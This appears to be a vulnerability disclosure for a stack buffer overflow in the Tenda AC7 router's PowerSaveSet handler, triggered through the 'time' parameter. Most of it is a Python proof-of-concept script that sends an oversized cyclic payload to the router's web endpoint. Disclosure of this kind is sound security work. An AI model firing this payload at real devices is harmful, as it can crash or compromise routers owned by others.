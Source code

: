 ## overview

| Firmware Name | Firmware Version | Download Link                                                |
| ------------- | ---------------- | ------------------------------------------------------------ |
| AC 7          | 15.03.06.44      | https://www.tenda.com.cn/prod/api/data/center/download/102776 |

## Vulnerability  Analysis

![f5b7def75238ebc638d1e8eb27e5781](./assets/f5b7def75238ebc638d1e8eb27e5781.png)

First, the websGetvar function is called to fetch the value of the time argument, and then the sscanf function is used to assign the value to the following four arrays, which are 8 bytes in size, resulting in a buffer overflow.

## poc

```
import requests
from pwn import *

# 配置请求参数
url = "http://192.168.0.1/goform/PowerSaveSet"
headers = {
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.204.133",
    "Referer": "http://192.168.204.133/parental_control.html?random=0.7058891673130268&",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Cookie": "password=iqb1qw; bLanguage=cn",
    "Connection": "close"
}

# 自定义 time 参数
custom_time = cyclic(10000)  # 你可以修改这个值

# 构造请求体
data = {
    "time": custom_time
}

# 发送请求
try:
    response = requests.post(url, headers=headers, data=data)
    response.raise_for_status()  # 检查请求是否成功
    print(f"请求成功，状态码：{response.status_code}")
    print("响应内容：")
    print(response.text)
except requests.exceptions.RequestException as e:
    print(f"请求失败：{e}")

```

## Vulnerability Verification 

![21efb10ac6166ab7c197defe838daae](./assets/21efb10ac6166ab7c197defe838daae.png)